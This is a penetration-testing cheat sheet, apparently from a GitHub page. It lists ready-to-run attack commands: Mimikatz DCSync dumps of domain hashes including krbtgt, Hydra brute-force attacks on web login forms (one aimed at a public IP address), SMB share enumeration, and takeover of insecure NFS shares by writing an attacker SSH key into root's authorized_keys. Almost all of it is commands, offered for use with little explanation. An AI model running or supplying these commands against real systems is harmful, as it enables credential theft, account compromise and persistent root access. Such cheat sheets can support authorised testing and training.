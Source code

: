|DCSync |
| ------------- |
|lsadump::dcsync /domain:pentestlab.local /all /csv|
|Invoke-Mimikatz -Command '"lsadump::dcsync /domain:insomnia.ninja.corp /all /csv"'|
|Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'|
|Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'|


### Avance Cracking Web Forms with Hydra

| For example  |
| ------------- |
|hydra -l admin -P /usr/share/wordlists/rockyou.txt  -f -V -s 80 192.168.1.2 http-get /wp-admin/|
|hydra -l root -P /usr/share/wordlists/rockyou.txt  -f -V -s 7001 178.72.90.181 http-post-form "/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username"|
|hydra 192.168.100.155 -V -l admin -P passwordlist http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=rjevaetqb3dqbj1ph3nmjchel2; security=low"|
|hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list|
|hydra -l IRISnoir -P /usr/share/wordlists/rockyou.txt -e nsr -v -V http-post-form://testasp.vulnweb.com/"Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^USER^&tfUPass=^PASS^:S=logout"|



| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |



### Insecure NFS Share Vulnerabilities

| for Example |
| ------------- |
| showmount -e 192.168.100.25 #Check if any share is available |
| mount -t nfs 192.168.100.25:/home /tmp/NFS |
| mount -t nfs 192.168.1.112:/ /mnt -o nolock |
| mkdir -p /root/.ssh # We May Upload SSH Key to NFS |
| ssh-keygen -t rsa -b 4096 |
| cp /root/.ssh/hacker_rsa.pub /mnt/root/.ssh/ |
| cat authorized_keys |
| cat id_rsa.pub >> authorized_keys |
|ssh -i /root/.ssh/hacker_rsa root@192.168.1.112|
